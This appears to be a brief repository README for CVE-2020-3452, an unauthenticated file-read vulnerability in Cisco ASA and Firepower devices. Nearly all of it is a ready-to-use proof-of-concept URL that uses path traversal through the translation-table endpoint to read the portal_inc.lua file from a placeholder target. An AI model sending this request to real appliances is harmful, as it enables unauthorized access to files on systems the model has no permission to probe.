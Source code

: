 # CVE-2020-3452
## Unauthenticated file read in Cisco ASA & Cisco Firepower.

- Read "/+CSCOE+/portal_inc.lua" file

https://TARGET/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
